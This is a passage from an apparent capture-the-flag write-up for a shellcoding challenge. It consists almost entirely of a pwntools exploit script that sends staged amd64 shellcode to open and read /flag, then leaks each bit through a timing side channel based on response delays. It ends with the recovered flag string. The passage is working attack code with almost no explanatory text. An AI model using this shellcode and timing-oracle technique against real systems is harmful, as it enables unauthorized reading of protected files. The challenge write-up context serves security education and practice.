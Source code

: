 ```python=
        """, arch='amd64')

        io.send(stage1)

        stage2 = asm(("""
        .rept 0x6
        nop
        .endr
        """ 
            + shellcraft.amd64.linux.open('/flag')
            + shellcraft.amd64.linux.read('rax', 'rsp', 0x100)
            + f"""
            xor r11, r11
            xor rax, rax
            mov al, [rsp+{offset}]
            shr al, {bit}
            shl al, 7
            shr al, 7
        loop:
            cmp rax, r11
            je end
            jmp loop
        end:
        """
        ), arch='amd64')

        io.send(stage2)
        start = time.time()
        io.recvall(timeout=1).decode()
        now = time.time()

        if (now - start) > 1:
            bin += '1'
        else:
            bin += '0'

    byte = int(bin[::-1], 2)

    return byte


tmp = []
for i in range(100):
    tmp.append(chill(i))
    if tmp[-1] == '}':
        break
    
flag = [x.decode('utf-8') for x in tmp]
flag = ''.join(flag)
```

**$ flag:** SEE{n1c3_sh3llc0ding_d6e25f87c7ebeef6e80df23d32c42d00}


